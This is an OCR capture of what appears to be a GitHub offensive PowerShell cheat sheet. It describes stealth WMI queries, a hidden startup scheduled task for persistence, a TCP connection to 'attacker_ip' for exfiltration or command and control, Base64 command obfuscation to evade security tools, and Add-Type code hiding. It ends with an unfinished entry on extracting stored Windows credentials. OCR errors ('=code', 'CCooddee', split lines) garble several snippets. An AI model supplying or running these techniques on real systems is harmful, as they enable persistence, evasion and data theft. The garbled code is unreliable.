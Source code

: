 ### Using PowerShell to Access WMI for Stealth

Leverages WMI (Windows Management Instrumentation) to execute system queries, which can be less
conspicuous than direct PowerShell commands.

```powershell
$query = 'SELECT * FROM Win32_Process'; Get-WmiObject -Query $query
```

### Scheduled Task for Persistence

Creates a scheduled task to execute PowerShell commands, ensuring persistence and execution even after system reboots.

```powershell
$action = New-ScheduledTaskAction -Execute 'Powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -
Command "YourCommand"'; $trigger = New-ScheduledTaskTrigger -AtStartup; Register-ScheduledTask -Action
$action -Trigger $trigger -TaskName 'MyTask' -Description 'MyDescription'
```

### Using PowerShell to Interact with the Network Quietly

Establishes a network connection for quiet data transmission, useful for maintaining stealth during data exfiltration or command and control operations.

```powershell
$client = New-Object Net.Sockets.TcpClient('attacker_ip', 443); $stream = $client.GetStream(); # Send and receive data
```

### Base 64 Encoding for Command Obfuscation

Encodes a PowerShell command in Base64 to obfuscate it, making it less detectable by security tools.

```powershell
$command = 'Get-Process'; $encodedCommand =code
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command)); powershell.exe -code
EncodedCommand $encodedCommand
```

### Utilizing PowerShell Add-Type for CCooddee Execution

Defines and executes code within a custom .NET class using PowerShell, which can be used to hide malicious activities within seemingly benign code

```powershell
Add-Type -TypeDefinition 'using System; public class MyClass { public static void Run() {
Console.WriteLine("Executed"); } }'; [MyClass]::Run()
```

### Extracting Credentials from Windows Credential Manager

This command utilizes the PSCredentialManager module to extract stored credentials from the Windows Credential Manager, focusing on generic 
credentials.
